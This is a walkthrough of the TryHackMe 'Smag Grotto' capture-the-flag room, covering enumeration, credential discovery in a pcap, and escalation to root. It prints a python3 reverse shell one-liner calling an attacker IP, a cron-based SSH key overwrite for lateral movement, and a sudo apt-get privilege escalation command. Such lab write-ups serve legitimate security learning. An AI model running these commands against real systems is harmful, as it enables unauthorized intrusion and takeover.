# Smag Grotto CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Smag Grotto** CTF challenge on [TryHackMe](https://tryhackme.com/room/smaggrotto). 
---

we see 2 open ports 22 and 80



we found we hidden folders with feroxbuster



checking the `/mail` folder



possible users: netadmin, uzi, jake, trodd

we also found .pcap file 

just by looking at the source of the page we see some credentials



wireshark analysis confirms them



after looking at the frame we also know about `development.smag.thm` adding this to `/etc/hosts`

after checking development we see file listing, 



we can login by using credentials we found earlier  

now we have access to command panel, commands like id, whoami, ls doesnt seem to give an output



i just used simple python3 reverse shell 

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.14.X.X",4445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

we got access as www-data



after inspecting linpeas output 


we can see cronjob that takes public key from `/opt/.backups/jake_id_rsa.pub.backup` and puts it into jake authorized keys, so if we can change the jake_id_rsa.pub.backup to our own key we could login as jake via ssh


we can generate our own ssh key with:

```
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" -f /tmp/my_ssh_key
```



now we can use echo to change the `/opt/.backups/jake_id_rsa.pub.backup` to our own public key 

```
echo "our public key" > /opt/.backups/jake_id_rsa.pub.backup
```

now we can copy our private key and log as jake via ssh beacuse cron job will substitute jake's real key with our


we got user flag



now we see the sudo -l output:



checking the GTFObins



we can use this command to gain root shell:

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

we got root access and root flag



# MACHINE PWNED
